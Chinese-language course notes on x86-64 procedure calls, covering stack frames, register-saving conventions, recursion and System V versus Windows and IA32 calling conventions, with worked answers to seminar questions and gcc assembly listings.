long v2 = incr(&v1, 3000); movq $15213, 8(%rsp) # v1 = 15213，放在栈上
return v1+v2; movl $3000, %esi # 参数 2：3000
} leaq 8(%rsp), %rdi # 参数 1：&v1
call incr
addq 8(%rsp), %rax # v1 + v2
addq $16, %rsp # 释放栈帧
ret为什么 v1 必须放在栈上？因为程序要取它的地址 &v1 传给 incr。寄存器没有地址，只有内存中的对象才能被指针指向。v2 不需要取地址，所以只存在于 %rax 中。
| 步骤 | 指令 | 栈与寄存器的变化（设入口时 %rsp = A，A 处是返回地址） |
|---|---|---|
| 1 | subq $16, %rsp | %rsp = A − 16；A − 8 处给 v1，A − 16 处未使用 |
| 2 | movq $15213, 8(%rsp) | M[A − 8] = 15213（v1） |
| 3 | movl $3000, %esi | %rsi = 3000（写 32 位寄存器同时清零高 32 位；比 movq $3000,%rsi 短 2 字节（5 字节对 7 字节；课件 p.47 Aside 1 写作 1 字节）） |
| 4 | leaq 8(%rsp), %rdi | %rdi = A − 8 = &v1（leaq 计算地址，这正是它“本来的用途”，课件 p.48 Aside 2） |
| 5 | call incr | 压入返回地址；incr 把 v1 改为 18213，%rax = 15213（旧值，p.49–51） |
| 6 | addq 8(%rsp), %rax | %rax = 15213 + 18213 = 33426（此时 v1 已是 18213） |
| 7 | addq $16, %rsp | %rsp = A，释放栈帧（p.52） |
| 8 | ret | 弹出返回地址 A 处的值并跳转（p.53） |
⚠ 在自己电脑上编译时看到的代码可能不同
栈保护方面，Ubuntu 等发行版的 gcc 默认开启 -fstack-protector-strong。函数中有数组或被取地址的局部变量时，会在栈上放一个“金丝雀”值（从 %fs:40 读出），返回前检查它是否被改写（第 8 讲缓冲区溢出）。实测 call_incr 多出了 movq %fs:40,%rax 等指令，加 -fno-stack-protector 后与课件完全相同。
栈对齐方面，ABI 要求在执行 call 时 %rsp 是 16 的倍数。课件中 call_incr 只减 16，看似违反了这一点（入口时 %rsp ≡ 8 mod 16，减 16 后仍 ≡ 8）。这是因为 incr 与 call_incr 在同一个文件中，gcc 知道 incr 不需要对齐。若 incr 定义在别的文件中，实测 gcc 13 改为 subq $24, %rsp，以保证调用时对齐。
优化级别也有影响：用 -O1 及以上，gcc 会把 incr 内联到 call_incr 中，整个函数直接变成 movl $33426, %eax; ret。
常见问题：编译器生成的汇编里，为什么常有看似多余的指令？
存了又取，如 movq %rax,-0x18(%rbp) 后面紧跟 movq -0x18(%rbp),%rax：这是不开优化（gcc 的默认选项 -O0）的代码。-O0 给每个变量在栈帧中安排一个固定位置，用 %rbp 加固定偏移寻址，并把每条语句都按“从内存取出 → 在寄存器中计算 → 写回内存”翻译，语句之间不在寄存器中保留任何值，所以上一句刚存进去的值，下一句还要再读一遍。这样做是为了调试：任何时刻每个变量都在内存里，gdb 可以读，也可以改，改了马上生效。加 -Og 后这类指令全部消失；实测一个数组求和循环，-O0 比 -Og 慢约 6 倍。
自己传给自己，如 movl %esi,%esi：作用是把高 32 位清零（第 4 讲：写 32 位寄存器会把高 32 位置 0）。long idx(long *a, unsigned i) { return a[i]; } 编译为 movl %esi,%esi 和 movq (%rdi,%rsi,8),%rax：ABI 不保证 32 位参数的高 32 位（见 6.4 节的常见问题），用作 64 位下标之前必须先零扩展。参数换成 int，这一条就变成符号扩展 movslq %esi,%rsi。
先复制再运算，如 return x - y; 编译为 movq %rdi,%rax 和 subq %rsi,%rax：x86-64 的运算指令把结果写回一个操作数，而返回值必须放在 %rax，所以先把 x 复制到 %rax 再减。
另外，xorl %eax,%eax 与调用前的 movl $0,%eax 也不相同：寄存器与自己异或就是清零，编码只有 2 字节（31 c0），比 movl $0,%eax 的 5 字节短，-O2 下优先使用；写 %eax 的同时也清零了整个 %rax。调用 printf 这类参数个数可变的函数之前把 %eax 置 0，则另有原因：ABI 规定用 %al 告诉被调用函数用了几个向量（浮点）寄存器传参数，这里是 0 个。
分配了却不用的栈空间，如 void twice(void) { g2(); g2(); } 编译为 subq $8,%rsp、两次 call、addq $8,%rsp：函数没有任何局部变量，减 8 只是为了让 call 时 %rsp 是 16 的倍数（上面⚠框中的“栈对齐”）。
各种 nop，如 nop、nopl 0x0(%rax)、cs nopw 0x0(%rax,%rax,1)：空操作，用来把下一个函数或循环的起点对齐到 16 字节边界，提高取指效率。函数之间的 nop 永远不会被执行，循环前的 nop 只执行一次。后两种是一条占 4～10 字节的“长 nop”，括号里的操作数并不访问内存。-O2 下几乎每个函数后面都有。
还有 endbr64 与 rep ret：endbr64 是 Intel CET 的间接跳转落点标记（第 4 讲），不支持 CET 的处理器把它当作 nop。教材中的部分代码把 ret 写成 rep; ret（反汇编显示为 repz retq），这是旧版 gcc 为了 AMD 处理器的分支预测而加的无害前缀（教材 3.6.3 节的旁注）；gcc 13 实测已不再生成。
那么怎样判断这些指令的作用？先看是不是 -O0 代码（开头有 pushq %rbp 和 movq %rsp,%rbp，变量都在 k(%rbp)）。如果开了优化，看似多余的指令几乎都有目的：扩展位宽、满足调用约定（返回值在 %rax、栈对齐、%al）、对齐代码，或者硬件与安全上的要求（endbr64，以及第 8 讲的栈保护金丝雀）。以上例子都用 gcc 13 实际编译过。
6.7 寄存器保存约定（课件 p.54–65）#
寄存器只有一套，被所有过程共享。课件 p.54 的例子：yoo 把 15213 放在 %rdx 中，调用 who 之后还要使用它；但 who 执行了 subq $18213, %rdx，把 %rdx 改写了——yoo 回来时就拿到了错误的值。因此必须约定：哪些寄存器由谁负责保存（p.55）。
yoo: who:
... ...
movq $15213, %rdx subq $18213, %rdx
call who ...
addq %rdx, %rax ret
...
ret表 6 x86-64 Linux 的寄存器使用约定（课件 p.56–57）
| 调用者保存（caller-saved） | 被调用者保存（callee-saved） | |
|---|---|---|
| 含义 | 被调用者可以随意改写；调用者若需要在调用后继续使用其中的值，必须在调用前自己保存（存到栈上或被调用者保存寄存器中） | 被调用者若要使用，必须在使用前把旧值保存（通常压栈），并在返回前恢复；调用者可以放心认为调用前后不变 |
| x86-64 Linux 中的寄存器 | %rax（返回值）、%rdi %rsi %rdx %rcx %r8 %r9（参数）、%r10 %r11（临时） | %rbx %r12 %r13 %r14、%rbp（可作帧指针）、%rsp（特殊形式：返回时必须恢复为原值） |
| 又称 | 易失（volatile）寄存器 | 非易失（non-volatile）寄存器 |
课件 p.57 说 callee-saved 包括 %rbx、%r12、%r13、%r14，以及 %rbp；System V ABI 中 %r15 也是被调用者保存的（教材图 3.2 与 ABI 文档），课件页面因篇幅省略了它。
long call_incr2(long x) { call_incr2:
long v1 = 15213; pushq %rbx # 保存调用者的 %rbx
long v2 = incr(&v1, 3000); subq $16, %rsp
return x+v2; movq %rdi, %rbx # x 存入被调用者保存寄存器
} movq $15213, 8(%rsp)
movl $3000, %esi
leaq 8(%rsp), %rdi # %rdi 被用来传 &v1
call incr
addq %rbx, %rax # x + v2（x 安然无恙）
addq $16, %rsp
popq %rbx # 恢复调用者的 %rbx
retcall_incr2 的问题是（p.58）：x 通过 %rdi 传入，但调用 incr 时 %rdi 要用来传 &v1；调用之后还需要 x。把 x 放在哪里？若放在 caller-saved 寄存器（如 %rcx）中，incr 可能改写它；所以放在 callee-saved 寄存器 %rbx 中。代价是：call_incr2 自己也是被调用者，它要使用 %rbx，就必须先保存调用者的 %rbx（pushq %rbx），最后恢复（popq %rbx）。

图 6 call_incr2 执行过程中栈的变化（x = 100；地址为假设值）
常见问题：“调用者保存”是不是每次调用前都要把这些寄存器压栈？
不是。“调用者保存”的含义是：被调用者可以随意改写这些寄存器，所以调用者如果在调用之后还要用其中的某个值，就得自己设法保住它；如果调用之后不再需要，就什么也不用做。不调用其他函数的叶子函数最能体现这一点，它可以自由使用 %rax、%rcx、%rdx、%rsi、%rdi、%r8～%r11，完全不需要 push/pop。例如 long leaf(long a, long b, long c) { long t = a*b; long u = b+c; return t ^ u; } 实测只有 imulq、addq、movq、xorq、ret 五条指令，没有任何栈操作。
确实需要让值“活过”一次调用时，gcc 通常也不会在每个 call 前后压栈、出栈调用者保存寄存器，而是像 call_incr2 那样把值放进被调用者保存寄存器。下面的 sumg 在循环中反复调用 g：long sumg(long n) { long s = 0; for (long i = 0; i < n; i++) s += g(i); return s; }，gcc 13 -Og 实测在入口处一次性压入 %r12、%rbp、%rbx，分别用来存放 n、累加和 s 与下标 i，循环体中 call g 的前后没有任何保存指令，函数出口再按相反顺序弹出。这样无论调用 g 多少次，保存的开销都只在入口和出口各出现一次。两类寄存器的分工可以概括为：短暂使用的临时值放在调用者保存寄存器中，需要跨越 call 的值放在被调用者保存寄存器中。
6.8 递归（课件 p.67–75）#
/* Recursive popcount */ pcount_r:
long pcount_r(unsigned long x) { movl $0, %eax # 返回值先设为 0
if (x == 0) testq %rdi, %rdi
return 0; je .L6 # x == 0 直接返回 0
else pushq %rbx # 保存调用者的 %rbx
return (x & 1) movq %rdi, %rbx
+ pcount_r(x >> 1); andl $1, %ebx # %rbx = x & 1
} shrq %rdi # 参数 x >> 1
call pcount_r # 递归
addq %rbx, %rax # (x & 1) + 递归结果
popq %rbx # 恢复 %rbx
.L6:
rep; ret| 课件页 | 阶段 | 要点 |
|---|---|---|
| p.68 | 终止情况 | x == 0 时 %rax = 0，直接跳到 ret，不执行 push，所以也不能执行 pop |
| p.69 | 保存寄存器 | pushq %rbx：本层要用 %rbx 存 x & 1，先保存上一层的 %rbx |
| p.70 | 准备调用 | %rdi = x >> 1（递归参数），%rbx = x & 1（被调用者保存，递归调用不会破坏它） |
| p.71 | 递归调用 | 递归调用的返回值在 %rax 中 |
| p.72 | 计算结果 | addq %rbx, %rax：(x & 1) + 递归结果 |
| p.73 | 完成 | popq %rbx 恢复上一层的 %rbx，ret 返回 |

图 7 pcount_r(13) 递归到最深处（x = 0 层）时的栈
以 x = 13（二进制 1101）为例，调用链为 13 → 6 → 3 → 1 → 0。每个非零层都把上一层的 %rbx 压栈，再把自己的 x & 1 放进 %rbx；返回时逆序恢复。结果逐层累加：pcount(0) = 0，pcount(1) = 1，pcount(3) = 2，pcount(6) = 2，pcount(13) = 3。gcc 13 -Og 的实测代码在结构上略有不同（把 movl $0,%eax 移到了 x == 0 的分支里），但思路完全相同。
★ 递归的观察（课件 p.74）
递归不需要任何特殊处理：栈帧使每次调用都有私有的存储空间（被保存的寄存器、局部变量、返回地址）。
寄存器保存约定防止一次调用破坏另一次调用的数据——除非 C 代码显式地这样做（例如缓冲区溢出，第 8 讲）。
栈规则与调用/返回的模式一致：P 调用 Q，则 Q 先于 P 返回，后进先出。
同样适用于相互递归：P 调用 Q，Q 又调用 P。
本讲总结（课件 p.75）#
栈是实现过程调用与返回的合适数据结构：若 P 调用 Q，则 Q 先于 P 返回。
递归（以及相互递归）由普通的调用约定处理：可以安全地把值存放在本地栈帧和被调用者保存寄存器中；函数参数放在栈顶；结果在 %rax 中返回。
指针就是值的地址，可以指向栈上或全局区域的对象。
第二部分 小班研讨题解答（第 6 讲）#
题目来自《ICS 小班研讨题和作业题（第 6 讲）》。“课件第 x 页”均指 2026 年课件 ICS06-machine-procedures-20260924。汇编均用 gcc 13 实测；涉及 Windows 与 IA32 的内容依据 Microsoft x64 调用约定文档和 System V i386 ABI 的规定整理。
研讨题 1：传递控制和数据#
1（1）基于课件第 4~7 页，自己重写示例，代替课件中的过程 P 和 Q。然后结合新的示例，讲解传递控制、传递数据和内存管理（分配和释放）分别包含哪些内容。
long scale(long v, long k) /* 相当于课件的 Q */
{
long tmp[4]; /* 局部数组：需要内存 */
for (long i = 0; i < 4; i++)
tmp[i] = v * i;
return tmp[k & 3];
}
long P(long x) /* 调用者 */
{
long total = scale(x, 3); /* 调用 */
return total + x; /* 返回点之后还要用 x */
}P: scale:
pushq %rbx movl $0, %eax
movq %rdi, %rbx # 保存 x jmp .L6
movl $3, %esi # 参数 2 .L7:
call scale # 参数 1 = x movq %rax, %rdx
addq %rbx, %rax imulq %rdi, %rdx
popq %rbx movq %rdx, -40(%rsp,%rax,8) # tmp[i]
ret addq $1, %rax
.L6:
cmpq $3, %rax
jle .L7
andl $3, %esi
movq -40(%rsp,%rsi,8), %rax # tmp[k&3]
ret| 机制 | 包含的内容 | 在本例中的体现 |
|---|---|---|
| 传递控制 | ① 调用：跳到被调用过程的第一条指令，同时记住返回点；② 返回：回到调用点之后的指令继续执行 | call scale 压入返回地址（addq %rbx,%rax 的地址）并跳到 scale；scale 的 ret 弹出这个地址跳回 |
| 传递数据 | ① 参数从调用者传给被调用者；② 返回值从被调用者传回调用者 | x 已在 %rdi 中（P 的第 1 个参数恰好也是 scale 的第 1 个参数），3 放入 %esi；scale 的结果放在 %rax 中返回 |
| 内存管理 | ① 被调用过程开始时为局部数据分配空间；② 返回前释放；还包括保存/恢复需要跨调用保留的寄存器 | P 用 push/pop 在栈上保存调用者的 %rbx；scale 的 tmp[4] 放在 %rsp 下方 40 字节处的红区（red zone）中，返回后自然失效 |
有趣的是，scale 没有执行 subq $32,%rsp 就直接使用了 -40(%rsp) 开始的空间。这是 System V ABI 规定的红区：%rsp 下方 128 字节的区域保证不会被信号处理程序等异步事件改写，因此叶子函数（不再调用其他函数）可以直接使用它而不必移动 %rsp，省去了分配和释放的指令。P 要调用 scale，就不能使用红区（call 会把返回地址压到那里）。
1（2）课件第 8 页提到的 ABI，主要包含哪些方面的内容？这些内容，哪些在之前课程中讲过，哪些是本次课讲的，哪些还没讲过？
ABI（Application Binary Interface，应用程序二进制接口）规定了编译好的二进制代码之间、以及二进制代码与操作系统之间如何协作。与 API（源代码层面的接口）不同，ABI 关心的是机器层面的细节：只要遵守同一个 ABI，用不同编译器、不同语言编译出来的目标文件就能链接在一起运行。Linux x86-64 遵循 System V AMD64 ABI，主要内容如下：
| ABI 的内容 | 具体规定（举例） | 在本课程中的位置 |
|---|---|---|
| 基本数据类型的大小、对齐与表示 | char 1 字节、int 4 字节、long 和指针 8 字节；补码；小端；IEEE 754 浮点 | 已讲：第 2、3 讲 |
| 寄存器的名称与用途 | 16 个整数寄存器，%rsp 为栈指针 | 已讲：第 4 讲 |
| 函数调用约定：参数与返回值的传递 | 前 6 个整数参数用 %rdi…%r9，其余用栈；返回值在 %rax | 本讲 |
| 寄存器保存约定 | 调用者保存与被调用者保存寄存器的划分 | 本讲 |
| 栈帧布局与对齐 | 栈向下增长；call 时 %rsp 必须 16 字节对齐；128 字节红区 | 本讲 |
| 结构体、联合、数组的内存布局 | 字段按声明顺序、按对齐要求插入填充 | 下一讲（第 7 讲） |
| 浮点参数与 XMM 寄存器 | 浮点参数用 %xmm0～%xmm7，返回值在 %xmm0，所有 XMM 寄存器调用者保存 | 下一讲（第 7 讲） |
| 大结构体的传递与返回 | 大于 16 字节的结构体按值放在栈上传递；返回时调用者通过隐藏的指针参数提供空间 | 第 7 讲作业 3.67 |
| 目标文件格式、符号、重定位、动态链接 | ELF 格式、符号表、PLT/GOT | 未讲：第 16 讲链接 |
| 系统调用接口 | syscall 指令；系统调用号放在 %rax，参数用 %rdi、%rsi、%rdx、%r10、%r8、%r9 | 未讲：第 17 讲异常控制流 |
| 进程启动时的状态 | 程序入口时栈上放置 argc、argv、环境变量等 | 未讲：第 17、23 讲 |
| 异常处理与栈回溯、线程局部存储、C++ 名字改编 | .eh_frame 表（汇编中的 .cfi_* 伪指令）、%fs 段寄存器 | 课程中不详细讲 |
1（3）拓展研讨：ABI 包含的主要内容，哪些是由硬件结构决定的（不可修改）；哪些是软件层面的规定（可以修改），但如果修改，会有哪些连带影响？
| 由硬件（ISA）决定，软件无法改变 | 由软件约定，理论上可以修改 |
|---|---|
| 寄存器的个数、宽度和名字（16 个 64 位整数寄存器） | 哪些寄存器传参数、按什么顺序（%rdi 还是 %rcx 作第 1 个参数） |
| 字节序（x86 是小端） | 哪些寄存器由调用者保存、哪些由被调用者保存 |
call 一定把返回地址压到 %rsp 所指的栈上，ret 一定从栈顶弹出；push/pop 一定让栈向低地址增长 | 栈帧布局、是否使用帧指针 %rbp、红区的大小 |
某些指令的对齐要求（如 movaps 访问未按 16 字节对齐的内存会出错） | 调用时栈的对齐要求（16 字节） |
| 整数与浮点的表示格式（补码、IEEE 754） | long 的大小（Linux 为 8 字节，Windows 为 4 字节）、long double 的格式 |
页面大小、syscall 指令的行为 | 结构体的对齐与填充规则、系统调用号、目标文件格式 |
严格地说，“硬件决定”的部分也是 ISA 的约定，只是固化在了芯片中；软件约定则是由操作系统和编译器厂商共同制定的。修改软件约定会带来一系列连带影响：
首先是二进制不兼容：所有已编译的库（libc、libm 以及各种第三方库）都按旧约定编译，新约定编译的程序无法与它们链接或正确调用，必须全部重新编译。这正是 ABI 一旦确定就极少改变的原因。
其次是编译器、汇编器、链接器、调试器全部要改：调试器（gdb）的栈回溯、C++ 的异常处理依赖栈帧和寄存器保存规则；手写的汇编代码（如 libc 中的 memcpy、操作系统的上下文切换）也都要重写。
第三是跨语言调用要同步修改：Python 的 ctypes、Java 的 JNI、Rust 的 extern "C" 等都依赖 C ABI。
最后是操作系统接口：修改系统调用约定需要内核与 C 库同时修改。
历史上还有一个例子：Linux 上的 x32 ABI（64 位指令但 32 位指针）就是一个“只改软件约定”的尝试，它需要一整套单独编译的库，最终很少被使用；32 位 x86 上同时存在 cdecl、stdcall、fastcall 等多种约定，调用时必须用关键字声明，否则会崩溃（见 1（6））。
1（4）基于 x86-64 体系结构，以 pushq 和 popq 两条指令的执行流程为主线，讲解栈的结构和相关操作。
以一段完整代码为线索。设初始 %rsp = 0x1000，%rax = 10，%rbx = 20，地址 0x0FE0～0x1007 都属于有效的栈区域：
pushq %rax # (1)
pushq %rbx # (2)
movq $99, %rax # (3)
popq %rcx # (4)
popq %rax # (5)| 步骤 | 指令 | 执行流程 | %rsp | 栈（只列有效部分） | 寄存器 |
|---|---|---|---|---|---|
| 初始 | 0x1000 | （空） | rax=10，rbx=20 | ||
| (1) | pushq %rax | 取 %rax = 10；%rsp − 8；写 M[0x0FF8] = 10 | 0x0FF8 | 0x0FF8: 10 | |
| (2) | pushq %rbx | 取 20；%rsp − 8；写 M[0x0FF0] = 20 | 0x0FF0 | 0x0FF8: 10 0x0FF0: 20 ← 栈顶 | |
| (3) | movq $99, %rax | 只改寄存器，栈中的 10 不受影响 | 0x0FF0 | 同上 | rax=99 |
| (4) | popq %rcx | 读 M[0x0FF0] = 20；%rsp + 8；%rcx = 20 | 0x0FF8 | 0x0FF8: 10 ← 栈顶 | rcx=20 |
| (5) | popq %rax | 读 M[0x0FF8] = 10；%rsp + 8；%rax = 10 | 0x1000 | （空） | rax=10（恢复） |
从这个例子可以总结栈的结构与操作要点：（1）栈是一段连续内存，%rsp 指向栈顶（最后压入的数据），栈顶以下（地址更低）的内存不属于栈；（2）push 先移动指针再写，pop 先读再移动指针，二者严格对称，因此“后进先出”；（3）push 保存的是值的副本，栈不知道值来自哪个寄存器，弹到哪里由 pop 的操作数决定——这里 (4) 把 %rbx 的值弹给了 %rcx；（4）pop 之后旧数据仍留在内存中（0x0FF0 处仍是 20），只是不再属于栈；（5）push/pop 不修改条件码。在函数中，这对指令最常用于保存和恢复被调用者保存寄存器（pushq %rbx … popq %rbx），以及在调用前传递栈参数（如 6.4 节的 pushq $8）。
1（5）以课件第 19 页的代码为总纲，基于课件第 21~24 页，讲解 call 和 ret 指令的操作流程。按照这样的详细程度：现在执行 xx 指令，位于地址 xx；执行这条指令前，rsp 指向的地址是 xx；执行完这条指令，栈的内容如何变化，rsp 如何变化，下一条指令如何确定；……
对照 6.3 节图 2 的四个快照（课件 p.21–24）：执行 call 前 %rsp = 0x120，而在此之前 multstore 执行过一次 push %rbx，所以 multstore 入口处 %rsp = 0x128，该处存放着 multstore 自己的返回地址（记为 R）。设 x = 6，y = 7，dest 指向变量 out。逐条跟踪：
| 地址 | 指令 | 执行前 %rsp | 栈与寄存器的变化 | 下一条指令 |
|---|---|---|---|---|
| 0x400540 | push %rbx | 0x128 | %rsp 减 8 → 0x120；M[0x120] = 调用者的旧 %rbx | 顺序执行：0x400540 + 1 = 0x400541 |
| 0x400541 | mov %rdx,%rbx | 0x120 | 栈不变；%rbx = dest（&out） | +3 → 0x400544 |
| 0x400544 | callq 400550 | 0x120 | 计算返回地址 = 下一条指令地址 0x400544 + 5 = 0x400549；%rsp 减 8 → 0x118；M[0x118] = 0x400549 | 跳转：%rip = 0x400550（mult2 入口） |
| 0x400550 | mov %rdi,%rax | 0x118 | 栈不变；%rax = a = 6 | +3 → 0x400553 |
| 0x400553 | imul %rsi,%rax | 0x118 | 栈不变；%rax = 6 × 7 = 42 | +4 → 0x400557 |
| 0x400557 | retq | 0x118 | 读出 M[0x118] = 0x400549；%rsp 加 8 → 0x120（内存中 0x400549 仍在，但已不属于栈） | 跳转：%rip = 0x400549 |
| 0x400549 | mov %rax,(%rbx) | 0x120 | 栈不变；out = 42 | +3 → 0x40054c |
| 0x40054c | pop %rbx | 0x120 | %rbx = M[0x120]（旧值恢复）；%rsp 加 8 → 0x128 | +1 → 0x40054d |
| 0x40054d | retq | 0x128 | 读出 M[0x128] = R；%rsp 加 8 → 0x130 | 跳转：%rip = R（回到 multstore 的调用者） |
这里有三点体会：（1）对于普通指令，下一条指令地址 = 当前地址 + 指令长度（x86 指令长度可变：1、3、4、5 字节……）；只有 call、ret、jmp 等控制转移指令会把 %rip 设为别的值。（2）call 的返回地址是由 CPU 自动计算的“下一条指令地址”，不是 call 地址加 1。（3）两次 ret 各自使用当时栈顶的值：mult2 的 ret 用 0x118 处的 0x400549，multstore 的 ret 用 0x128 处的 R，所以栈必须在 ret 前恢复到进入函数时的状态。
1（6）基于课件第 26 页，讲解 x86-64 上运行 Linux 时，过程参数如何传递。进一步调研，x86-64 和 Windows 的传参规则；32 位 x86（IA32）和 Linux、Windows 的传参规则；简要分析它们之间的差异。
先看 x86-64 Linux 的 System V AMD64 ABI：前 6 个整数/指针参数依次放在 %rdi、%rsi、%rdx、%rcx、%r8、%r9；前 8 个浮点参数放在 %xmm0～%xmm7（整数与浮点各自独立计数）；其余参数从右向左压栈，每个占 8 字节，参数 7 在最低地址；返回值放在 %rax（浮点在 %xmm0，128 位整数在 %rdx:%rax）；调用者负责清理栈上的参数；call 时 %rsp 必须 16 字节对齐；变参函数（如 printf）用 %al 告诉被调用者用了几个向量寄存器。
表 7 几种调用约定的参数传递对比
| x86-64 Linux（System V） | x86-64 Windows（Microsoft x64） | IA32 Linux / Windows cdecl | IA32 Windows stdcall | IA32 fastcall（MSVC） | |
|---|---|---|---|---|---|
| 寄存器传参 | 6 个整数：rdi rsi rdx rcx r8 r9；8 个浮点：xmm0–7 | 4 个，按位置共用：rcx/xmm0、rdx/xmm1、r8/xmm2、r9/xmm3 | 无，全部压栈 | 无，全部压栈 | 前 2 个整数：ecx、edx，其余压栈 |
| 栈参数顺序 | 从右向左压栈 | 从右向左 | 从右向左 | 从右向左 | 从右向左 |
| 额外的栈空间 | 无；叶子函数可用 128 字节红区 | 调用者必须预留 32 字节“影子空间”（shadow space）供被调用者存放 4 个寄存器参数；无红区 | 无 | 无 | 无 |
| 谁清理栈参数 | 调用者 | 调用者 | 调用者（支持变参） | 被调用者（ret $n） | 被调用者 |
| 返回值 | rax（rdx:rax）/ xmm0 | rax / xmm0 | eax（edx:eax）；浮点在 x87 的 st(0) | 同 cdecl | 同 cdecl |
| 典型用途 | Linux、macOS、BSD | Windows | C 程序默认 | Win32 API | 性能敏感的函数 |
两套约定的差异可以从几个方面分析：（1）寄存器数量决定了传参方式。IA32 只有 8 个通用寄存器，几乎都要用于计算，因此参数主要经栈传递，每次调用都要访存；x86-64 有 16 个，可以拿出 4～6 个传参，大多数函数调用完全不访问内存，速度明显提高。（2）Linux 与 Windows 在 x86-64 上的取舍不同：System V 用更多寄存器传参（6 + 8 个），并提供红区，减少叶子函数的指令；Microsoft x64 只用 4 个且整数与浮点按位置共用，规则更简单，影子空间则方便被调用者把寄存器参数存回内存（便于变参函数和调试），代价是每次调用都要多分配 32 字节。（3）在谁清理栈这一点上，调用者清理（cdecl）可以支持参数个数可变的函数；被调用者清理（stdcall）使代码更短（清理只在函数中写一次，ret $n），但不支持变参。（4）由于这些差异，同一份 C 代码在不同平台上编译出的汇编不同，不同约定的二进制代码不能直接互相调用——这正是 ABI 的意义。
1（7）讲解课件第 27 页的代码，按照运行顺序，逐行讲解汇编代码，并指出和 C 代码的对应关系。进一步分析：如果 C 代码中的 mult2(x,y) 改为 mult2(y,x)，汇编代码会有什么变化。
| 顺序 | 汇编 | 操作 | 对应 C |
|---|---|---|---|
| 入口 | — | x 在 %rdi，y 在 %rsi，dest 在 %rdx | multstore(long x, long y, long *dest) |
| 1 | push %rbx（课件省略为 •••） | 保存调用者的 %rbx（被调用者保存寄存器） | （无直接对应） |
| 2 | mov %rdx,%rbx | 把 dest 存到 %rbx，因为 %rdx 是调用者保存寄存器，mult2 可能改写它 | 为 *dest = t 做准备 |
| 3 | callq 400550 <mult2> | 参数 a = x、b = y 已经在 %rdi、%rsi 中，无需移动；压入返回地址、跳转 | mult2(x, y) |
| 4 | mov %rdi,%rax（mult2 内） | %rax = a | long s = a * b; |
| 5 | imul %rsi,%rax | %rax = a × b | |
| 6 | retq（mult2 内） | 返回，s 在 %rax 中 | return s; |
| 7 | mov %rax,(%rbx) | t 在 %rax 中，写到 dest 指向的内存 | *dest = t; |
| 8 | pop %rbx / retq | 恢复 %rbx，返回（课件省略为 •••） | } |
如果改成 mult2(y, x)，mult2 需要 %rdi = y、%rsi = x，而入口处恰好相反，所以必须交换 %rdi 与 %rsi 的内容。交换需要一个临时寄存器。gcc 13 -Og 实测：
multstore_yx:
pushq %rbx
movq %rdi, %rax # 临时：%rax = x
movq %rsi, %rdi # 参数 1 = y
movq %rdx, %rbx # 保存 dest
movq %rax, %rsi # 参数 2 = x
call mult2
movq %rax, (%rbx)
popq %rbx
ret多了 3 条 mov 指令，用 %rax 作为交换的临时寄存器（%rax 在调用前可以随意使用，它会被返回值覆盖）。这说明参数的位置完全由 ABI 规定：参数在源代码中的顺序决定了它必须进入哪个寄存器。顺带一提，如果用 -O1 编译且 mult2 在同一文件中，gcc 会把 mult2 内联，multstore 变成 imulq %rsi,%rdi; movq %rdi,(%rdx); ret，multstore_yx 变成 imulq %rdi,%rsi; movq %rsi,(%rdx); ret——乘法满足交换律，两种写法只是两个寄存器的角色互换，指令条数相同，交换参数的开销完全消失。
研讨题 2：栈上的局部存储#
2（1）基于课件第 31 和 43 页的说明，讲解第 32~42 页的变化过程。
课件 p.31 说明：每个栈帧保存一个过程实例的返回信息、局部存储和临时空间；进入过程时由“建立代码”（包括 call 压入返回地址）分配，返回时由“结束代码”（包括 ret 弹出返回地址）释放。p.43 给出了帧的一般结构。按此理解 p.32–42（帧的序号对应图 3 的纵向位置）：
| 课件页 | 正在执行 | 栈中的帧（从栈底到栈顶） | 发生了什么 |
|---|---|---|---|
| p.32 | yoo | yoo | yoo 的帧建立；%rbp（若使用）指向帧底，%rsp 指向帧顶 |
| p.33 | who | yoo → who | yoo 调用 who：call 压入返回地址（属于 yoo 帧的末尾），who 建立自己的帧 |
| p.34 | amI | yoo → who → amI | who 第一次调用 amI |
